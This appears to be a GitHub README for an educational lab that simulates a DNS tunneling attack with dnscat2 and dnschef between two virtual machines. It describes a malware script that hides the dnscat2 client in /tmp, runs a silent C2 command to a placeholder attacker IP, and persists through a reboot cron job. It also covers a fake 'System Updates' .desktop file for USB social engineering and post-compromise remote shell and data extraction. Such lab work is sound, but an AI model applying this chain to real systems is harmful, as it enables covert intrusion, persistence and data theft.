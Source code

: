 # DNS Tunneling Attack Simulation

This project simulates a DNS Tunneling attack using:

- **dnscat2** for command-and-control over DNS
- **dnschef** for simulating a fake DNS server
- A **malware script** as payload
- **autorun.desktop** to simulate real-world autorun behavior

## Structure

- `/setup`:
 ### A virtual lab was created using VMware with two machines:
  #### Attacker (Kali Linux 2023.1):
  -Hosts dnscat2 (C2 server) and dnschef (fake DNS server).
  #### Victim (Ubuntu 20.04):
  -Simulates a compromised system communicating via DNS tunneling.
  
- `/dnschef`: Configuration for fake DNS domain
### The attacker machine (Kali Linux) uses dnschef, a rogue DNS proxy, to intercept DNS queries from the victim.
  -Purpose: Redirect DNS queries for a fake domain (e.g., *.tunnel.local) to the attacker's IP, enabling covert C2 communication.
  
   ![image](https://github.com/user-attachments/assets/0b114df3-97b7-4f8c-bc33-74e2ead71348)

  -Domain Used: tunnel.local (custom pseudo-domain)
  
  -Listener Port: 53 (standard DNS)

  -Behavior: Replies to DNS queries with the attacker's IP instead of resolving them, enabling the victim to unknowingly connect to the dnscat2 server.
  
- `/malware`: 🐛 Malware Creation and Deployment
A custom Bash script (`malware.sh`) was developed to simulate real-world malware behavior using DNS tunneling for covert Command and Control (C2) communication.
  
   ![image](https://github.com/user-attachments/assets/bb7d4a97-c78d-40bf-bebf-fd17233af4a3)

 ### 🔒 Stealthy Deployment
  -Copies the `dnscat2` client to a hidden path: `/tmp/.dns-update`
  -Sets execution permissions for silent execution
 ### 🌐 C2 Initialization
  -Establishes a DNS-based C2 channel to the attacker's server over **UDP port 53**
  -Launches the client using:
  ./dnscat --dns server=<KALI_IP>,port=53 --secret=mysecret >/dev/null 2>&1
 ### ♻️ Persistence
   -Adds a cron job with @reboot to ensure the malware runs on every system startup
 ### 💾 Infection Method:
   -Delivered via USB drive
   
- `/dnscat2`: 🧠 dnscat2 C2 Server Setup
  To complete the DNS tunneling setup, the attacker's environment includes running both the **dnscat2 C2 server** and the **dnschef fake DNS server** in parallel.
 ### ⚙️ dnscat2 Installation & Setup
 -Installs Ruby
    ![image](https://github.com/user-attachments/assets/412d31fa-7da7-4a84-b466-45ad59f421d7)
    
 -Clones the dnscat2 repository from GitHub to your local machine.
    
   ![image](https://github.com/user-attachments/assets/45db2ad5-10ac-4d9e-92b7-5f52021338b4)
    
 -Change directory to the dnscat2 server folder and Installs Ruby's dependency manager Bundler
    
   ![image](https://github.com/user-attachments/assets/68e13608-4294-4269-ad63-0db40c084a6d)
    
 -installs any required Ruby gems defined in the Gemfile
    
   ![image](https://github.com/user-attachments/assets/3434ca66-218e-414c-b7f3-24b3a0abca4e)
    
 -Launches the dnscat2 server, enabling it to listen for DNS queries and manage inbound communication.
  
   ![image](https://github.com/user-attachments/assets/b6bb6cac-e639-4358-b740-28270d4a04f6)
    
   (‼️ Important: Both the dnscat2 server and dnschef must run simultaneously)
   
- `/Autorun`:💾 USB-Based Delivery via `.desktop` File
  A fake `.desktop` file is used to trick users into executing a malicious script (`malware.sh`) from a USB drive. This method simulates social engineering by mimicking a legitimate system update.
### 🧿 File Example: `System Autorun.desktop`

   ![image](https://github.com/user-attachments/assets/d376af3e-9704-4379-ae58-f985797e7dbc)

-Name=System Updates: Displays a trusted label to trick the user.

-Exec=/bin/bash /media/$USER/USB/malware.sh :Executes the hidden script from the USB.

-Icon=system-software-update: Uses a familiar system icon to avoid suspicion.

-Type=Application: Treated as an executable app.

-Terminal=false: Runs silently without opening a terminal window.
    
- `/tunnel execution`: 🎯 Execution and Session Establishment
  
  -When the victim clicks the malicious .desktop file, malware.sh is executed.
  -This triggers a DNS tunnel connection to the attacker's dnscat2 C2 server.
  -A stealthy session is created, giving the attacker remote shell access.
  
   ![image](https://github.com/user-attachments/assets/ddb593fb-d9d8-4806-aea1-7439cdf3c076)

-`/result_screen shoots`:🛠 Post-Execution Actions
### Attacker can now:
  -Run remote commands
  -Monitor user activity
  -Extract sensitive data
  
   ![image](https://github.com/user-attachments/assets/92ff7011-2ee0-4a54-ae2f-08feefc32e81)

   ![image](https://github.com/user-attachments/assets/0dc1c90a-b731-422f-9393-9239207e2e55)

   ![image](https://github.com/user-attachments/assets/f7583d55-734f-4987-b58c-1a2794e56f8b)

   ![image](https://github.com/user-attachments/assets/4a8df170-2232-41c5-ac18-2efb355f1991)

   ![image](https://github.com/user-attachments/assets/4bfa987e-5d3a-480e-824e-80595ca2ea00)

   ![image](https://github.com/user-attachments/assets/a8bac9d6-28bb-403a-be7f-ba206d0ed789)
   
   ![image](https://github.com/user-attachments/assets/be0fc7a7-7857-43f1-a04e-0635634b9e0a)
   
  ![image](https://github.com/user-attachments/assets/a3baf20d-ce75-4fd7-a715-cd4706eccf8d)

  ![image](https://github.com/user-attachments/assets/ea02f761-961a-408e-bf22-596916e91812)


## How to Run (For Educational Use Only)

> ⚠️ Warning: This is for **educational and testing purposes** only. Do not use in unauthorized environments.

1. Start `dnschef` with a fake domain.
2. Launch `dnscat2-server`.
3. Place the `autorun.desktop` on the target and simulate execution.
4. The Ruby malware connects back to the `dnscat2` server.
5. You can exfiltrate data or run commands from the server.

## Legal Notice

This project is strictly for **educational purposes** and **authorized testing labs**. Do not deploy in live or unauthorized environments.
